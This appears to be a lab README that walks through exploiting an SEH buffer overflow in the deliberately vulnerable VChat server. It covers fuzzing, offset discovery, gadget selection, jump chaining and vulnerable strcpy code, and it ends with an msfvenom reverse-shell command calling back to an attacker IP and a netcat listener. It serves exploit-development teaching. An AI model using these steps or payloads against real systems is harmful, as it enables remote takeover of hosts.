# GMON Exploiting: Harnessing SEH \<Exceptions are good\>

*Notice*: The following exploit, and its procedures are based on the original [Blog](https://fluidattacks.com/blog/vulnserver-gmon/)
___

Not all buffer overflows will be capable of overflowing the return address to modify the `eip` register in order to gain control of the flow of execution. So how do we account for this? When exploiting a Windows system we can use the [Structured Exception Handling](https://learn.microsoft.com/en-us/cpp/cpp/structured-exception-handling-c-cpp?view=msvc-170) (SEH) feature provided that allows for languages like C to have a common exception handling paradigm, the try-catch-finally block.

## SEH
SEH is used to process possibly fatal exceptions, that is SEH is used to examine, and respond to some event raised by the program in the same scope, or some external but related scope. Exceptions could be a failure during a systemcall due to the resources being unavailable, some runtime error, or even simple arithmetic errors such as a divide by zero exception. The features provided by SEH on a Windows system allow us to create a chain of exception handlers that can process an exception before it reaches the default handler. We can define a basic set of handler by using the try-catch-finally block as shown below.

```
int main()
{
    __try
    {
        TestExceptions();
    }
    __except(EXCEPTION_EXECUTE_HANDLER)
    {
        printf("Executing SEH __except block\n");
    }

    return 0;
}
```
* `__try`: If the code located within a **__try** block raises an exception (C++ or non-C++ Exception), if a paired **__except** block matches the raised exception it will be executed. Otherwise the exception is propagated.
* `__except`: This is a exception handler, we may define the types of exception this block handles. When a paired **__try** block raises an exception, it it matches those defined for the **__except** block it will be executed.


Each SEH entry or *record* are stored on the stack of the thread in a linked list format and contain two pointers one to the next entry in the SEH chain the other an exception handler. The default handler is `0xFFFFFFFF`, and if no other handlers are found to process the raised exception while traversing the chain, the default handed will be invoked. Below is the structure used to define a SEH entry: 

```
typedef struct _EXCEPTION_REGISTRATION_RECORD
{
  /* 0x0000 */ struct _EXCEPTION_REGISTRATION_RECORD* Next;
  /* 0x0008 */ void* Handler /* function */;
} EXCEPTION_REGISTRATION_RECORD, *PEXCEPTION_REGISTRATION_RECORD; /* size: 0x0010 */
```
> Note the annotated sizes are for a 64-bit system as the [referenced code](https://github.com/ntdiff/headers/blob/master/Win10_1507_TS1/x64/System32/hal.dll/Standalone/_EXCEPTION_REGISTRATION_RECORD.h) is pertaining to a possibly 64-bit Windows-10 system, in a 32-bit system each pointer takes only 4-bytes rather than the 8-bytes a pointer in a 64-bit system would occupy. 

As these entries are stored on the stack, if our overflow is positioned in such a way, it is possible for us to overflow the SEH entry on the stack, so if we were to raise an exception we could gain control of the flow of execution in the process. 

## Exploitation
The following sections cover the process that should (Or may) be followed when preforming this exploitation on the VChat application. It should be noted, that the [**Dynamic Analysis**](#dynamic-analysis) section makes certain assumption primarily that we have access to the binary that may not be realistic however the enumeration and exploitation of generic Windows, and Linux servers in order to procure this falls out of the scope of this document. 

**Notice**: Please setup the Windows and Linux systems as described in [SystemSetup](../00-SystemSetup/README.md)!

### PreExploitation
1. **Windows**: Setup Vchat
   1. Compile VChat and it's dependencies if they has not already been compiled. This is done with mingw 
      1. Create the essfunc object File 
		```powershell
		$ gcc.exe -c essfunc.c
		```
      2. Create the [DLL](https://learn.microsoft.com/en-us/troubleshoot/windows-client/deployment/dynamic-link-library) containing functions that will be used by the VChat.   
		```powershell
		# Create a the DLL with an 
		$ gcc.exe -shared -o essfunc.dll -Wl,--out-implib=libessfunc.a -Wl,--image-base=0x62500000 essfunc.o
		```
         * ```-shared -o essfunc.dll```: We create a DLL "essefunc.dll", these are equivalent to the [shared library](https://tldp.org/HOWTO/Program-Library-HOWTO/shared-libraries.html) in Linux. 
         * ```-Wl,--out-implib=libessfunc.a```: We tell the linker to generate generate a import library "libessfunc".a" [2].
         * ```-Wl,--image-base=0x62500000```: We specify the [Base Address](https://learn.microsoft.com/en-us/cpp/build/reference/base-base-address?view=msvc-170) as ```0x62500000``` [3].
         * ```essfunc.o```: We build the DLL based off of the object file "essfunc.o"
      3. Compile the VChat application 
		```powershell
		$ gcc.exe vchat.c -o vchat.exe -lws2_32 ./libessfunc.a
		```
         * ```vchat.c```: The source file is "vchat.c"
         * ```-o vchat.exe```: The output file will be the executable "vchat.exe"
         * ```-lws2_32 ./libessfunc.a```: Link the executable against the import library "libessfunc.a", enabling it to use the DLL "essefunc.dll"
   2. Launch the VChat application 
		* Click on the Icon in File Explorer when it is in the same directory as the essefunc dll
2. **Linux**: Run NMap
	```sh
	# Replace the <IP> with the IP of the machine.
	$ nmap -A <IP>
	```
   * We can think of the "-A" flag like the term aggressive as it does more than the normal scans, and is often easily detected.
   * This scan will also attempt to determine the version of the applications, this means when it encounters a non-standard application such as *VChat* it can take 30 seconds to 1.5 minuets depending on the speed of the systems involved to finish scanning. You may find the scan ```nmap <IP>``` without any flags to be quicker!
   * Example results are shown below:

		

3. **Linux**: As we can see the port ```9999``` is open, we can try accessing it using **Telnet** to send unencrypted communications
	```
	$ telnet <VChat-IP> <Port>

	# Example
	# telnet 127.0.0.1 9999
	```
   * Once you have connected, try running the ```HELP``` command, this will give us some information regarding the available commands the server processes and the arguments they take. This provides us a starting point for our [*fuzzing*](https://owasp.org/www-community/Fuzzing) work.
   * Exit with ```CTL+]```
   * An example is shown below

		

### Dynamic Analysis 
If you dissabled exceptions for the [EggHunting](https://github.com/DaintyJet/VChat_GTER_EggHunter) exploit, that is we passed all exceptions through the debugger to the VChat process. You should uncheck the options so Immunity Debugger can catch the exceptions allowing us to see the state of the program at a crash.  See step 2 of the [Launch VChat](#launch-vchat) section!
#### Launch VChat
1. Open Immunity Debugger

	 

    * Note that you may need to launch it as the *Administrator* this is done by right clicking the icon found in the windows search bar or on the desktop as shown below:
			
	

2. Ensure Immunity Debugger with intercept exceptions raised by the process
   1. Open the debugging options as shown below

	   

   2. Open the Exception Options, if nothing is showing select any other tab and then re-seslect Exceptions 

	   

   3. Ensure we uncheck all boxes

	   


3. Attach VChat: There are Two options! 
   1. When the VChat is already Running 
        1. Click File -> Attach

			

		2. Select VChat 

			

   2. When VChat is not already Running -- This is the most reliable option!
        1. Click File -> Open, Navigate to VChat

			

        2. Click "Debug -> Run"

			

        3. Notice that a Terminal was opened when you clicked "Open" Now you should see the program output

			
4. Ensure that the execution in not paused, click the red arrow (Top Left)
	
	

#### SEH 
1. Launch Immunity Debugger and attach VChat to it
2. Use Immunity Debugger to view the SEH Chain: Click View and select SEH chain as shown below.

    

   * This infomration is discovered by looking the the Processes Thread Enviornment Block (TEB).  

3. Examine the SEH chain of the program

    

   * We can see there are two entries, we may want to keep an eye on these as we Fuzz the VChat server!

#### Fuzzing 
SPIKE is a C based fuzzing tool that is commonly used by professionals, it is available in the [kali linux](https://www.kali.org/tools/spike/) and other [pen-testing platforms](https://www.blackarch.org/fuzzer.html) repositories. We should note that the original refernce page appears to have been taken over by a slot machine site at the time of this writing, so you should refer to the [original writeup](http://thegreycorner.com/2010/12/25/introduction-to-fuzzing-using-spike-to.html) of the SPIKE tool by vulnserver's author [Stephen Bradshaw](http://thegreycorner.com/) in addition to [other resources](https://samsclass.info/127/proj/p18-spike.htm) for guidance. The source code is still available on [GitHub](https://github.com/guilhermeferreira/spikepp/) and still maintained on [GitLab](https://gitlab.com/kalilinux/packages/spike).

1. Open a terminal on the **Kali Linux Machine**
2. Create a file ```GTER.spk``` file with your favorite text editor. We will be using a SPIKE script and interpreter rather than writing out own C based fuzzer. We will be using the [mousepad](https://github.com/codebrainz/mousepad) text editor.
	```sh
	$ mousepad GMON.spk
	```
	* If you do not have a GUI environment, a editor like [nano](https://www.nano-editor.org/), [vim](https://www.vim.org/) or [emacs](https://www.gnu.org/software/emacs/) could be used 
3. Define the FUZZER parameters, we are using [SPIKE](https://www.kali.org/tools/spike/) with the ```generic_send_tcp``` interpreter for TCP based fuzzing.  
		
	```
	s_readline();
	s_string("GMON ");
	s_string_variable("*");
	```
    * ```s_readline();```: Return the line from the server
    * ```s_string("GMON ");```: Specifies that we start each message with the *String* GTER
    * ```s_string_variable("*");```: Specifies a String that we will mutate over, we can set it to * to say "any" as we do in our case 
4. Use the Spike Fuzzer 	
	```
	$ generic_send_tcp <VChat-IP> <Port> <SPIKE-Script> <SKIPVAR> <SKIPSTR>

	# Example 
	# generic_send_tcp 10.0.2.13 9999 GMON.spk 0 0	
	```
   * ```<VChat-IP>```: Replace this with the IP of the target machine 
   * ```<Port>```: Replace this with the target port
	* ```<SPIKE-Script>```: Script to run through the interpreter
	* ```<SKIPVAR>```: Skip to the n'th **s_string_variable**, 0 -> (S - 1) where S is the number of variable blocks
	* ```<SKIPSTR>```: Skip to the n'th element in the array that is **s_string_variable**, they internally are an array of strings used to fuzz the target.
5. Observe the results on VChat's terminal output

	

	* Notice that the VChat appears to have crashed after our second message! We can see that the SPIKE script continues to run for some additional iterations before it fails to connect to the VChat's TCP socket, however this is long after the server started to fail connections.
6. We can also look at the comparison of the Register values before and after the fuzzing in Immunity Debugger; Notice that the EIP register has not changed! 
	* Before 

		

	* After

		 <!-- Did anything change? -->

      * The best way to reproduce this is to use [exploit0.py](./SourceCode/exploit0.py).
      * Notice that the EIP register is `77C06819` not `41414141` as we have seen previously!

7. We can examine the messages SPIKE is sending by examining the [tcpdump](https://www.tcpdump.org/) or [wireshark](https://www.wireshark.org/docs/wsug_html/) output.

	

	* After capturing the packets, right click a TCP stream and click follow! This allows us to see all of the output.

		

8. However observing the SEH records we can see there has been a change there!

	

#### Further Analysis
1. Generate a Cyclic Pattern. We do this so we can tell *where exactly* the SEH records are located on the stack. We can use the *Metasploit* program [pattern_create.rb](https://github.com/rapid7/metasploit-framework/blob/master/tools/exploit/pattern_create.rb). By analyzing the values stored in the SEH record's pointer, we can tell where in memory a SEH record is stored. 
	```
	/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 5000
	```
	* This will allow us to inject a new address at that location.
2. Run the [exploit1.py](./SourceCode/exploit1.py) to inject the cyclic pattern into the Vunlserver program's stack and observe the SEH records. 

	 

3. Notice that the EIP register reads `77C06819` and remains unchanged, but we can see in this case the SEH record's hander was overwritten with `386D4537`. We can use the [pattern_offset.rb](https://github.com/rapid7/metasploit-framework/blob/master/tools/exploit/pattern_offset.rb) script to determine the address offset based on out search strings position in the pattern. 
	```
	$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 386D4537
	```
	* This will return an offset as shown below; In this case the offset is `3503`

	 

4. The next thing that is done, is to modify the exploit program to reflect the file [exploit2.py](./SourceCode/exploit2.py)
   * We do this to validate that we have the correct offset for the return address!

		 

		* See that the SEH handler is a series of the value `42` that is a series of Bs. This tells us that we can write an address to that location in order to change the control flow of the program when an exception occurs.
		* Note: Sometimes it took a few runs for this to work and update on the Immunity debugger.
5. Now let's pass the exception to the program and see what happens `Shift+F7` was the keybind we used (This should be displayed at the bottom of the screen).

	

      * We can see that the the `ESP` register (Containing the stack pointer) holds the address of `00F4EDC8`, however our buffer starts at `00F4EDD0`, which means we need to traverse 8 bytes before we reach a segment of the stack we control.

6. We can use the fact that our extra data is on the stack, and `pop` the extra data off into some register. The exact register does not really matter as we simply want to remove it from the stack. We can use `mona.py` to find a SEH gadget that pops two elements off the stack (8-bytes), which places the stack pointer `ESP` in the correct posion for us to start executing code we inject into our buffer; Use the command `!mona seh -cp nonull -cm safeseh=off -o` in immunity debugger as shown below.

	

      * The `seh` command of *mona.py* finds gadgets to remove the extra 8-bytes before our buffer.
      * The `-cp nonull` flag tells *mona.py* to ignore null values.
      * The `-cp nonull -cm safeseh=off` flag tells *mona.py* to ignore safeseh modules (The program was not compiled for safe SEH).
      * The `-o` flag tells *mona.py* to ignore OS modules.

	

      * We can see there are quite a number of options, any one of them should work. For the examples we will be using the address `62501B5E`

7. Use a program like [exploit3.py](./SourceCode/exploit3.py) to verify that this works.
   1. Click on the black button highlighted below, enter in the address we decided in the previous step

		

   2. Set a breakpoint at the desired address (Right click)

		

   3. Run the [exploit3.py](./SourceCode/exploit3.py) program till a overflow occurs (See SEH record change)

		

         * Notice that the SEH record's handler now points to an essefunc.dll address!
	4. Once the overflow occurs pass the exception using `Shift+F7` then click the *step into* button!

		 

         * This is what we will see **before** the exception is passed

		 

         * This is what we will see once we have passed the exception as we will have hit the breakpoint! 

	5. Notice that we jump to the stack we just overflowed!

		

8. Notice where we have jumped to? This is slightly off as we jumped to the the address in the first hald of the SEH record

	

   * This means we have `00AEFFFF - 00AEFFCC = 33` or a decimal vale of 51 bytes of space. This is much less than the `3503` before our SEH overwrite...

9. Now we want to preform a Short Jump to avoid overwriting the SEH block. A short jump is only 2 bytes, and should give us enough space to preform a long jump to the start of the buffer. We should usethe tool `/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb`
   * Run `nasm_shell.rb`, note that it's path may differ 
   * enter `jmp short +0xa` to preform a short jump of 10 bytes. 

	

10. Copy the output from the `nasm_shell.rb` (`EB08`) into the [exploit4.py](./SourceCode/exploit4.py) exploit script. We use the NOP instructions to overwrite the SEH handlers address This allows us to differntiate it from the `A`s, however this could simple be repalced with `A`s . <!--(Makes it stand out?)-->
11. Run the program with the breakpoint set and observe it's outcome. We can see the Short Jump!

	

12. Now we can as was done in the GTER exploit preform a long jump to the start of the buffer! In this case the address of the starting point is `00DDF221` (This may vary!), and we can use this when providing Immunity Debugger an instruction to assemble so it can calculate the offset. 

   1. Select the address we preformed the short jumped to and right click it, select the assemble option as shown below.

	   

   2. Assemble the instruction, and copy the result's hex value so we can insert it into our exploit code!

	   

      * In this case the assembled instruction was `E9 46 F2 FF FF` Which will become `\xe9\x46\xf2\xff\xff`
   3. After inserting the instruction, and pressing "step into" we should see ourselves at the start of the buffer 

	   

13. Modify the [exploit5.py] exploit script to have your new long `jmp` instruction, set a breakpoint at the `pop/pop/ret` SEH gadget and observe it's behavior!

   1. Ovserve the exploit hitting the `pop/pop/ret` gadget after passing the exception to the program.

	   

   2. Observe the program hitting the short jump instruction.

      

   3. Observe the program hitting the long jump instruction.

      

Now that we have all the necessary parts for the creation of a exploit we will add the shellcode to our payload and gain access to a reverse shell!
### Exploitation
1. Now We will need to create a reverse shell we can include in the payload, this is a program that reaches out amd makes a connection to the attacker's macihne (or one they control) from target machine and provides a shell to the attacker. We can generate the shellcode with the following command. 
	```
	$ msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.15 LPORT=4444 EXITFUNC=seh -f python -v SHELL -b '\x00'
	```
      * `msfvenom`: [Metasploit](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html) payload encoder and generator.
      * `-p windows/shell_reverse_tcp`: Specify we are using the tcp reverse shell payload for windows 
	  * `LHOST=10.0.2.15`: Specify the Listening Host's IP (IP of Attacker)
      * `LPORT=4444`: Specify the Listening port (Port Attacker Listens on)
      * `EXITFUNC=thread`: Exit process, this is running as a seh based exploit.
      * `-f python`: Format the output for use in a python program 
      * `-v SHELL`: Specify SHELL variable
      * `-b '\x00'`: Set bad characters

2. Create the byte array representing the shellcode as done in [exploit6.py](./SourceCode/exploit6.py). Remember this should be placed at the start of the buffer!
3. Now lets see how the program reacts!
   1. Ovserve the exploit hitting the `pop/pop/ret` gadget after passing the exception to the program.

	   

   2. Observe the program hitting the short jump instruction.

      

   3. Observe the program hitting the long jump instruction.

      
	
	4. Observe that we are not at the start of the shell code!

      

4. Now run netcat and use the reverse shell: `nc -lv -p 4444`

      

## VChat Code

GMON Code
```
else if (strncmp(RecvBuf, "GMON ", 5) == 0) {
	char GmonStatus[13] = "GMON STARTED\n";
	for (i = 5; i < RecvBufLen; i++) {
		if ((char)RecvBuf[i] == '/') {
			if (strlen(RecvBuf) > 3950) {
				Function3(RecvBuf);
			}
			break;
		}
	}
SendResult = send(Client, GmonStatus, sizeof(GmonStatus), 0);
}
```

Function3 code:
```
void Function3(char* Input) {
	char Buffer2S[2000];
	strcpy(Buffer2S, Input);
}
```

## Test code
1. [exploit0.py](./SourceCode/exploit0.py)
2. [exploit1.py](./SourceCode/exploit1.py) : Sending a cyclic pattern of chars to identify the offset that we need to inject to control EIP.
3. [exploit2.py](./SourceCode/exploit2.py): Verify location of the SEH Handle 
4. [exploit3.py](./SourceCode/exploit3.py): Jumping to *POP EAX, POPEDX, RTEN* 
4. [exploit4.py](./SourceCode/exploit4.py): Adding *JMP SHORT* 
6. [exploit5.py](./SourceCode/exploit5.py): Adding a long *JMP* instruction for jumping to the start of the buffer. 
7. [exploit6.py](./SourceCode/exploit6.py): Adding reverse shell code.

<!-- ## Refernces 
https://www.securitychops.com/2019/03/24/retro-exploit-series-episode-one-vulnserver-gmon-seh.html

https://resources.infosecinstitute.com/topics/hacking/seh-exploit/ -- Look Into for adding more details
-->
